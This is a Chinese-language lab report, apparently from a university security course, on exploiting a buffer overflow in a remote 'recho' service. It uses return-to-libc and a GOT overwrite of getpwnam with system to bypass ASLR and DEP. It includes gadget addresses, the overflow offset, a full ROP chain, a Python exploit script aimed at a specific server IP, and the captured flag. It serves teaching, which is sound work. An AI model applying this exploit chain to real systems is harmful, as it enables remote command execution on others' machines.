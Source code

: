 # 缓冲区溢出攻击

> 计64 翁家翌 2016011446
>
> 2018.1.1

[TOC]

## 实验目的

利用远程服务器上*recho.c*的**recv\_line(buf)**函数缓冲区溢出的漏洞，使用`return to libc`技术绕过ASLR（地址空间分布随机化）和DEP（数据执行保护，堆栈不可执行）防护，获取远程服务器中的flag文件的内容。

## 实验过程

大致思路是利用现有的gadget进行拼装，将libc现成的`getpwnam`函数的GOT的表项改为`system`的GOT表项，然后就能通过调用`getpwnam`函数来执行命令。

### 第三方交互库选取

使用zio进行交互：`sudo pip2 install zio`，使用前`from zio import *`即可。

### 获取recho中的函数地址

使用命令：`objdump -D recho|grep "sendstr\|recv\_line\|getpwnam"`

结果如下：

```asm
08048640 <getpwnam@plt>:
080489e6 <recv_line>:
08048acf <sendstr>:
```

可以得知：`getpwnam_plt`位于`0x8048640`，`recv_line`函数位于`0x80489e6`，`sendstr`函数位于`0x8048acf`。

为了获取`getpwnam`函数的GOT表项地址，使用命令`objdump -D recho|grep "8048640"`查看，可以看到：

```asm
08048640 <getpwnam@plt>:
 8048640:	ff 25 08 a2 04 08    	jmp    *0x804a208
```

于是可以得知`getpwnam_got`位于`0x804a208`。

### 获取组件

`bss`为全局变量存储的位置，可以用来存储shellcode，脚本中以变量`cmd`代替；并且使用`pop+ret`组合能够清空栈中的参数。

使用命令`objdump -x recho|grep "bss"`可以得到

```asm
 24 .bss          0000000c  0804a280  0804a280  0000127c  2**3
0804a280 l    d  .bss	00000000              .bss
```

可知bss的地址为`0x804a280`。

使用命令`objdump -d recho|grep "pop\|ret"`可以得到

```asm
 8048615:	5b                   	pop    %ebx
 8048616:	c3                   	ret    
 80487f2:	5e                   	pop    %esi
 8048823:	c3                   	ret    
 8048859:	f3 c3                	repz ret 
 8048893:	f3 c3                	repz ret 
 80488bc:	f3 c3                	repz ret 
 80489e5:	c3                   	ret    
 8048a60:	c3                   	ret    
 8048ace:	c3                   	ret    
 8048af3:	c3                   	ret    
 8048b4b:	c3                   	ret    
 8048e0c:	c3                   	ret    
 8048e68:	5b                   	pop    %ebx
 8048e69:	5e                   	pop    %esi
 8048e6a:	5f                   	pop    %edi
 8048e6b:	5d                   	pop    %ebp
 8048e6c:	c3                   	ret    
 8048e70:	f3 c3                	repz ret 
 8048e86:	5b                   	pop    %ebx
 8048e87:	c3                   	ret    
```

注意到有两处地方`0x8048615`和`0x8048e86`都符合需求，pop命令和ret命令相邻，随便选一个即可。

### 获取libc中的函数地址

使用命令`objdump -T libc.so.6 |grep "system\|getpwnam"`查看，得到：

```asm
000af060 g    DF .text	0000014e  GLIBC_2.0   getpwnam
0003ada0  w   DF .text	00000037  GLIBC_2.0   system
```

可知`getpwnam`在libc中的相对位置为`0xaf060`，`system`在libc中的相对位置为`0x3ada0`。

### 缓冲区溢出进行覆盖

查看handle函数反汇编的相关信息，如下所示：

```asm
08048af4 <handle>:
 8048af4:	55                   	push   %ebp
 8048af5:	89 e5                	mov    %esp,%ebp
 8048af7:	81 ec 08 01 00 00    	sub    $0x108,%esp
 8048afd:	83 ec 04             	sub    $0x4,%esp
 8048b00:	68 00 01 00 00       	push   $0x100
 8048b05:	6a 00                	push   $0x0
 8048b07:	8d 85 f8 fe ff ff    	lea    -0x108(%ebp),%eax
 8048b0d:	50                   	push   %eax
 8048b0e:	e8 3d fc ff ff       	call   8048750 <memset@plt>
...
```

分析可知buf的地址与ebp相差`0x108`，也即264。于是向要发送的payload填充268个字节，覆盖掉ebp指向的地址，接下来的字符就能够填充handle的ret了。

### 构造函数

1. `payload += sendstr + popret + getpwnam_got`：让`sendstr`函数覆盖掉原先`handle`的ret地址，将`getpwnam_got`的地址放置于+8位置，利用`pop/ret`清空栈中的参数，让esp指向下一函数地址，即2中的`recv_line`。作用就是执行命令`sendstr(getpwnam_got)`，将远程服务器中的动态地址发送至本地。
2. `payload += recv_line + popret + getpwnam_got`：作用为执行命令`recv_line(getpwnam_got)`，本地使用已经获得的`libc`中这两个函数的地址，计算出远程服务器上`system`函数的地址值之后，重写远程服务器的`getpwnam_got`地址值为该`system`值。
3. `payload += recv_line + popret + cmd`：作用为远程服务器接收本地发送的`cmd`。
4. `payload += getpwnam_plt + popret + cmd`：作用为让远程服务器使用`system`命令执行`cmd`中的内容，由于`getpwnam_got`的值在步骤2已经被修改为`system`函数的值，因此执行`getpwnam_plt`的时候去查询GOT表项，会返回`system`的地址，因此就能够让远程服务器执行`cmd`。

### 实施攻击

```python
host=('202.112.51.151',1234)
p=zio(host)
p.readline() # 接收welcome那一行
payload='a'*268\ # 溢出
	+sendstr+popret+getpwnam_got\ 
	+recv_line+popret+getpwnam_got\
	+recv_line+popret+cmd\
	+getpwnam_plt+popret+cmd # 构造需要执行的函数
p.write(payload+'\0\n') # 发送至远程服务器
p.read(len(payload)) # 接收服务器返回的一模一样的文本
system_addr=l32(p.read(4))-getpwnam_libc+system_libc # 接收第一个函数返回的地址值，计算远程服务器recho中的system函数地址
p.write(l32(system_addr)+'\n') # 发送该地址给第二个函数
p.write('cat flag\n') # 发送命令给第三个函数
p.readline() # 接收第四个函数返回的文本
```

完整脚本见`try.py`。

## 实验结果

使用命令`python try.py`即可运行，结果如下：

![](pic/result.png)

绿色为服务器发送至本地的数据，蓝色为本地发送至服务器的数据。

flag为`32065-20465-27388-27188-15334`